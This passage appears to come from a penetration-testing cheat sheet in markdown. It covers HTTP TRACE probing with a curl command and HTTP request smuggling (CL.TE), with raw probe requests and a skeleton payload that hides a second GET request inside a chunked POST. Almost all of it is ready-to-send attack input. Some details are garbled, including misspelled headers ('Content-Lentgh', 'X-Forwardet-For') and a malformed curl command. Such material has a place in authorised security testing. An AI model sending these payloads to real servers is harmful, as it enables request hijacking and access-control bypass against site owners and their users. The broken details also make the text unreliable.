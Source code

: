 ### HTTP TRACE

- Perform a message loop-back test, providing a debugging mechanism

```console
TRACE /index.html
```

```console
$ curl -v -X TRACE -k https://example.com 80
```

#### Response

```console
Host: <RHOST>
Via: <RHOST>
X-Forwardet-For: <RHOST>
```

## HTTP Request Smuggling / HTTP Desync Attack

### Quick Wins

```console
Content-Length: 0
Connection: Content-Lentgh
```

### Content-Length / Transfer-Encoding (CL.TE)

#### Searching for Vulnerability

```console
POST / HTTP/1.1
Host: <RHOST>
Transfer-Encoding: chunked
Connection: keep-alive
Content-Length: 4

1
A
0
```

#### Skeleton Payload

```console
POST / HTTP/1.1
Host: <RHOST>
Content-Length: 30
Connection: keep-alive
Transfer-Encoding: chunked
\ `0`\
GET /404 HTTP/1.1
Foo: Bar
```
